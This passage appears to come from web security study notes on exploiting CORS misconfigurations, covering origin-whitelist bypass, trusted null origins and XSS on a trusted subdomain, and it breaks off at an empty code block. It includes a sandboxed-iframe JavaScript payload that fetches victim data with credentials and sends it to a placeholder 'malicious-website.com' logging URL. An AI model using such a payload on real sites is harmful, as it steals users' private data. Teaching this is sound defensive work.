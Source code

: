 ```
normalWebsite.com
```
- An attacker might be able to gain access using the domain:
```
normalWebsite.com.evilUser.net
```
### Whitelisted null origin value
- The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:
  1. Cross-site redirects.
  2. Requests from serialized data.
  3. Request from the `file:` protocol.
  4. Sandboxed cross-origin requests.
- Some applications might whitelist the `null` origin to support local development of the application.
- Suppose an application receives the following cross-domain request:
```
GET /sensitive-victim-data
Host: vulnerableWebsite.com
Origin: null
```
The server responds with:
```
HTTP/1.1 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
- An attacker can use can use various tricks to generate a cross-domain request containing the value `null` in the Origin header satisfying the whitelist and leading to cross-domain access.
- This can be done using a sandboxed `iframe` cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
### Exploiting XSS via CORS trust relationship
- Even `correctly` configured CORS establishes a trust relationship between two origins.
- If a website trusts an origin that is vulnerable to XSS, thenan attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
- Given the following request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerableWebsite.com
Origin: https://subdomain.vulnerableWebsite.com
Cookie: sessionid=...
```
- If the server responds with the following, then an attacker who finds an XSS vulnerability on `subdomain.vulnerableWebsite.com` could use that to retrieve the API key.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerableWebsite.com
Access-Control-Allow-Credentials: true
```
- The API key can be retrieved using the following URL:
```
```